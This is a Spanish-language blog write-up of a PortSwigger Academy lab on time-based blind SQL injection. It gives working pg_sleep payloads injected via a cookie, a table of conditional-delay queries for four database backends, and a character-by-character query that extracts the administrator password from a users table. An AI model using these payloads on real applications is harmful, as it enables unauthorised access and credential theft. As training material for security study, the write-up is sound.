


+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 14"
date = "2021-11-11"
description = "Lab: Blind SQL injection with time delays and information retrieval"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind SQL injection with time delays

En este <cite>laboratorio[^1]</cite>la finalidad es poder explotar una vulnerabilidad de sql injection pero basandose en tiempo, la cual se utilizara posteriormente para poder extraer los datos del usuario y contrasena de la tabla usuers.

## Reconocimiento

Basandonos en la siguiente <cite>lista[^2]</cite> encontramos que inyectando la siguiente consulta podemos ejecutar un delay, sabiendo que la aplicacion es backend `postgresql`.

```
xxxxxxxxx' AND 1337=(SELECT 1337 FROM PG_SLEEP(10)) AND '1337'='1337 //inyectar esto no dejara ejecutar conditional time delay
xxxxxxxxx'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- //%3B para no tener conflicto en repeater al colocar ';' en la cookie
```
Podemos inyectar las siguientes consultas para crearla:

   Backend | Consulta SQL
--------|------
    Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
  Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
  PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
  MySQL | SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

###  Payloads

Ahora toca crear una consulta para extraer los valores de la contrasena de la tabla `users`, creando la siguiente consulta, sabiendo que es `postgresql`. Como en los anteriores sabemos que son 20 caracteres en este caso vamos a utilizar la siguiente consulta, utilizando clusterbomb, el primero como valor numero de 1 a 20 y el 2 con una lista de caracteres alfanumericos.

```sql
'%3BSELECT CASE WHEN (username='administrator' and substr(password,<valor cambiante 1 a 20>,1)='valor alfanumerico') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
```



Y con esto ya tenemos la contrasena del usuario `administrator` que es `ifp6pjrl8u4oy2xp9e3b`. Y algo a tomar en cuenta es al hacer inyecciones de este tipo, la respuesta de las peticiones al hacerse juntas la respuesta tardara igual en todas, asi que lo justo es no enviar en hilos ya que no sabremos cual sera la respuesta que tarde mas ya que se replicara en varias respuestas.

#### Extraer datos

Y con esto hemos resulto el lab:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
[^2]: [Lista de Payloads SQL Injection Time Based](lista.txt)